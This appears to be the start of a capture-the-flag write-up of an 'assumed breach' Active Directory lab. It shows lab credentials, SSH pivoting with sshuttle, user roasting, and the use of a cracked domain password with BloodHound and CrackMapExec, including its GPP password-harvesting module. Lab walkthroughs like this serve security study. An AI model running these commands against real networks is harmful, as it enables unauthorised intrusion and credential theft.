


This is an assumed breach scenario. Heron Corp created a low-privileged local user account on a jump server for you.

```
pentest:Heron123!
```

The goal is to find as many vulnerabilities as you can and to try to escalate your privileges.

```
└─# ssh pentest@10.10.158.150
```


Scanning the ports from the jmp server. 


Lets access the internal network , we can use ssh reverse proxy for that. 

```
└─# sshuttle -r pentest:'Heron123!'@10.10.158.150 10.10.158.1/24 -x 10.10.158.150
```


Enumerating the web-server , found some usernames . Lets find if they are roastable and any of our use !




Cool ! We got a domain user . Its show time !

```
└─# bloodhound-python --username samuel.davies --password l6fkiy9oN --domain heron.vl --nameserver 10.10.158.149 --domain-controller MUCDC.heron.vl --collectionmethod all --zip
```


```
└─# crackmapexec smb 10.10.158.149 -u samuel.davies -p l6fkiy9oN --shares
```





```
└─# crackmapexec smb 10.10.158.149 -u samuel.davies -p l6fkiy9oN -M gpp_password
```


